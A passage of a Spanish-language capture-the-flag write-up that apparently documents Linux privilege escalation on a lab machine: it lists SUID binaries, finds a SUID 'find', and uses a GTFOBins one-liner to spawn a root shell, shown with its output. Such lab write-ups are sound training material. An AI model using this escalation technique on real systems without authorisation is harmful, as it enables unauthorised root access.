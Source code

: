 Tratamos de listar permisos sudo -l pero no nos fue posible asi que buscamos en los binarios SUID para ver que podemos encontrar.

`find / -perm -4000 2>/dev/null`

```bash
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/mount
/usr/bin/find
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/chfn
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/mysql/plugin/auth_pam_tool_dir/auth_pam_tool
```

Como vemos encontramos un binario <mark style="color:orange;">find</mark> el cual vamos a buscar en [GTFObins](https://gtfobins.github.io/) y vemos que podemos aprovecharlo para escalar privilegios.

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
carlos@055007bdd9cd:~$ /usr/bin/find . -exec /bin/sh -p \; -quit
whoami
root
```



&#x20;Y somos Root..
